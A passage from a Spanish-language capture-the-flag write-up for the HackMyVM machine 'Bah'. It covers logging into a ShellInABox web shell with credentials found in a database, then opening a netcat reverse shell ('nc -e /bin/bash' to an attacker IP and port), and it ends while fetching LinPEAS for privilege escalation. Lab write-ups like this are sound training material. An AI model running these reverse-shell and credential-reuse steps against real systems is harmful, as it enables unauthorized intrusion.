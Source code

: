 Vemos que el subdominio **`party`** tiene muchos menos caracteres, veamos de qué se trata:

![ShellInABox](/assets/img/imgs/bah/ShellInABox.png)

Vemos que se trata de una **`Shell`** y, además, disponemos de usuarios y contraseñas proporcionados por la base de datos **`hidden`** antes descubierta, así que vamos a probar los usuarios hasta que uno funcione:

![RocioShellInABox](/assets/img/imgs/bah/RocioShellInABox.png)

¡Qué bien! Vemos que el usuario **`Rocio`** existe y la contraseña encontrada es correcta. Antes de continuar me llevaré esta **`Shell`** a mi máquina, por comodidad:

```sh
rocio@bah:~$ nc -e /bin/bash 192.168.1.107 4444
```

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Bah]
└─# nc -nlvp 4444     
listening on [any] 4444 ...
connect to [192.168.1.107] from (UNKNOWN) [192.168.1.110] 43934
rocio@bah:~$
```

### Subida de privilegios
Ahora ya estamos en la máquina, por lo que nos falta escalar privelgios y así obtener el **`control total`** de esta. Para ello comenzaré con enumeración básica utilizando [**`LinPEAS`**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). Comenzaremos por descargarlo:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Bah/exploits]
└─# curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:--     0
100  828k  100  828k    0     0  97957      0  0:00:08  0:00:08 --:--:--  275k
```
